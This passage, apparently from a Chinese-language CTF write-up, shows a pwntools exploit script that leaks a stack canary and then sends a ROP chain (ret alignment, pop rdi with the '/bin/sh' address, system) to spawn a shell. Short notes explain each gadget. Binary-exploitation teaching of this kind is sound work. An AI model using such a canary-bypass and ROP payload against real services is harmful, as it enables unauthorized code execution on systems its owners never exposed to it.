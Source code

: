 ```python
binsh = base + 0x1b3e1a
 
io.recvuntil(b'overflow?')
Payload_Canary = Padding
io.sendline(Payload_Canary)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
Canary = u64(io.recv(7).rjust(8, b'\x00'))
log.success("Canary: " + (hex(Canary)))
 
Payload_Shell = Padding + p64(Canary) + Padding_Ret + p64(ret) + p64(rdi) + p64(binsh) + p64(system)
io.sendlineafter(b'Try harder!',Payload_Shell)
io.interactive()
```

Padding就是上文泄露Canary的Payload

Canary就是Canary的数据

Padding_Ret 代表覆盖原先栈上的 RBP

Ret 用来平衡栈帧

Rdi 用来存放 system 的第一个函数，也就是 /bin/sh 字符串的地址的。
